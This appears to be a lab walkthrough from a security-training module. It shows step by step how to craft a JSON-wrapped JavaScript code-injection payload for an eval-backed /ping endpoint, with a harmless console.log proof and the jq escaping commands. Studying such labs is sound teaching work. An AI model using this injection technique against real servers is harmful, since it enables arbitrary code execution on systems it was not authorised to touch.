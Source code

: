 - Sending a POST request to the `/ping` endpoint
- Setting the "debug" POST parameter to `true`
- Setting the "ip" POST parameter to a JSON object, with the key named "ip"
- Inject commands in the value of the "ip" key, as in `{"ip":INJECTION}`

First, students need to test on the local server running, adding `console.log()` for each step to assure the payload is functional. To inject code into `eval`, students need to follow the code injection steps taught in the module:

1. Code injection will be in: `ip = JSON.parse('INJECTION').ip;`, thus, students need to close `'` and `)`, such that it the JSON object becomes `{"ip":"127.0.0.1'); console.log("INJECTED");"`
2. Then, the resultant command when fed to the server will have a syntax error:

Code: javascript

```javascript
ip = JSON.parse('127.0.0.1'); console.log('INJECTED');').ip;
```

Therefore, students need not break JSON and comment out `').ip`:

Code: javascript

```javascript
ip = JSON.parse('127.0.0.1').ip; console.log('INJECTED');//'\).ip;
```

3. The final JSON has a syntax error due to the command:

Code: json

```json
{"ip": "127.0.0.1').ip; console.log('INJECTED');//').ip;"}
```

Thus, students need to properly close it to send a proper `ip` value:

Code: json

```json
{"ip": "127.0.0.1"}').ip; console.log('INJECTED');//').ip;"}
```

4. The payload thus far is `127.0.0.1"}').ip; console.log('INJECTED');//').ip;`, thus, students need to escape any quotes to avoid causing issues with JSON, using `jq`:

Code: shell

```shell
cat << EOF > payload
127.0.0.1"}').ip; console.log('INJECTED');//').ip;
EOF
cat payload | jq -aR
```

```
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ cat << EOF > payload
127.0.0.1"}').ip; console.log('INJECTED');//').ip;
EOF
┌─[eu-academy-1]─[10.10.14.81]─[htb-ac413848@htb-shjpzcukev]─[~]
└──╼ [★]$ cat payload | jq -aR

"127.0.0.1\"}').ip; console.log('INJECTED');//').ip;"
```
